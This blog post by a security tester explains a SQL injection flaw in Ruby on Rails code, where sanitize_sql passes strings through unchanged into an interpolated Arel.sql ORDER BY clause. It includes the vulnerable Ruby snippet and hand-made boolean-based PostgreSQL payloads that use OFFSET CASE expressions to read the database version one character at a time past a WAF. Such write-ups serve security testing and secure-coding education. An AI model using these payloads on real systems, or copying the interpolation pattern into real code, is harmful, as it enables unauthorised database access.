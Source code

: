 ```yaml
---
layout: fragment
title: Ruby on Rails SQL Sanitization
tags: [Rails, ActiveRecord, SQL Injection]
description: Leveraging sanitization issues in Rails ActiveRecord for SQL injection
keywords: ActiveRecord, SQLi, Ruby
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


# Ruby on Rails SQL Sanitization

*Special thanks to my bossman [Jeff Thomas](https://jeffhacks.com/) in the research regarding this issue.*

I recently had the opportunity to review some Ruby on Rails (RoR) code as part of grey box testing (dynamic testing + source code analysis). The code base used Active Record, which is an Object Relational Mapping (ORM) framework for Ruby and RoR. What this means put simply, is that instead of using direct/raw SQL queries to interact with the relational database management system, we can use objects instead.

## The Basics

Class definitions for a User model can be defined as such which will map the User table to this model:

```ruby
class User < ActiveRecord::Base
class Book < ApplicationRecord // ApplicationRecord also serves as the base class to interact with the database
```

The models can inherit additional logic, associations etc such as the following:

```ruby
class Admin < ApplicationRecord
  belongs_to :user // each Admin record belongs to a User
  has_many :permissions // each Admin can have multiple permissions

  scope :create_new_user, -> { ...queries... } // creates a new method call for the Admin model as a shortcut to a query 
```

We can then call the various attributes of the User class to interact with it. For example:

```ruby
User.new(...) // creating a new entry
User.save // saving the entry to the database

User.find(id) // find an entry based off an id
User.where(...) // return results based off a condition
```

This is just an extremely brief overview of Active Record to set the scene, to understand more please visit [here](https://guides.rubyonrails.org/active_record_basics.html).

## The Interesting

Sometimes complicated queries are used to extract the appropriate entries from the relational database. If they are engineered inappropriately, the Active Record query may accept unsanitized or insufficiently sanitized input. Take this for example:

```ruby
sanitised_input = sanitize_sql(unsanitized_string_input)
rel = joins(a).where(b).order(Arel.sql("position(c::text in '#{sanitized_input}')"))
result = rel.first
```

Let's break this down:

Our `unsanitized_string_input` is sanitized using the Ruby on Rails Active Record input sanitization method - `sanitize_sql`. This method is shown [here](https://api.rubyonrails.org/v7.1.3.4/classes/ActiveRecord/Sanitization/ClassMethods.html#method-i-sanitize_sql), but it is effectively an alias for [sanitize_sql_for_conditions](https://api.rubyonrails.org/v7.1.3.4/classes/ActiveRecord/Sanitization/ClassMethods.html#method-i-sanitize_sql_for_conditions).

The input is added to an SQL query method, which is used to retrieve the first record that matches these conditions (`rel.first`). The conditions are:
  - joins(a): SQL JOIN clause to attach two tables
  - where(b): SQL WHERE clause
  - order(...): SQL ORDERBY clause
  - Arel.sql: allows the insertion of raw SQL clauses for more complex queries, but is generally done so in a safe manner
  - `position(c::text in '#{sanitized_input}')`: The SQL clause to append after the ORDERBY. This is a PostgreSQL position function which attempts to determine the position of the sanitized_input in the 'c' column, cast as text

So where is the issue? When we observe that the raw SQL input accepts `#{sanitized_input}`, this is actually string interpolation, and the user input is directly added to the clause. If the input is unsanitized or insufficiently sanitized, this can lead to SQL injection.

As it turns out, and as provided by this [rails issue here](https://github.com/rails/rails/issues/46053), the `sanitize_sql` method serves as a passthrough for everything except arrays. If we pass a string to the sanitization function, it would ignore it and pass it straight to string interpolation, leading to an SQL injection issue. This is shown in the Rails Active Record as shown:

<img width="911" alt="image" src="https://github.com/user-attachments/assets/c7063a10-1147-467d-a820-777ddbbb9d63">

## The Exploitation

When attempting to exploit this issue on the target web application, we noted that they used a Cloudflare WAF which blocked the majority of payloads ( provided by SQLMap, even with the use of tamper scripts, or payload modification as per my [previous blog](https://qwutony.github.io/2024/04/03/customising-sqlmap/). Thus the initial proof of concept had to be manually crafted.

We observed that only a boolean-based SQL injection was possible, and the application would either respond with a 500 error if the SQL query is broken, such as by injecting a single quote, or returned a 404 with an even number of quotes.

```
') + ('0 // 500
'') + ('0 // 404
```

As we know that the injection location occurs after the ORDERBY clause, we need to insert our payload in either the OFFSET or the LIMIT clause to respect the order of clauses, the order being:

1. SELECT
2. FROM
3. JOIN
4. WHERE
5. GROUP BY
6. HAVING
7. ORDER BY <-- You are here.
8. OFFSET
9. LIMIT

We can then use another position statement (PostgreSQL specific) to attempt to enumerate the database. For example:

```SQL
') offset (case when (select position('O' in (select version()))) = '1' then 0 else -1 end) + ('0 // If the first character is 'O' in version(), then OFFSET 0

') offset (case when (select position('P' in (select version()))) = '1' then 0 else -1 end) + ('0 // If the first character is 'P' in version(), then OFFSET -1, which results in an error (ERROR: OFFSET must not be negative)

') offset (case when (select position('Po' in (select version()))) = '2' then 0 else -1 end) + ('0 // Can append the second character to the original clause
```

## Resources:
  - [https://guides.rubyonrails.org/active_record_basics.html](https://guides.rubyonrails.org/active_record_basics.html)
  - [https://jeffhacks.com/](https://jeffhacks.com/)
  - [https://github.com/rails/rails/issues/46053](https://github.com/rails/rails/issues/46053)
  - [https://api.rubyonrails.org/v7.1.3.4/classes/ActiveRecord/Sanitization/ClassMethods.html#method-i-sanitize_sql](https://api.rubyonrails.org/v7.1.3.4/classes/ActiveRecord/Sanitization/ClassMethods.html#method-i-sanitize_sql)
  - [https://api.rubyonrails.org/v7.1.3.4/classes/ActiveRecord/Sanitization/ClassMethods.html#method-i-sanitize_sql_for_conditions](https://api.rubyonrails.org/v7.1.3.4/classes/ActiveRecord/Sanitization/ClassMethods.html#method-i-sanitize_sql_for_conditions)
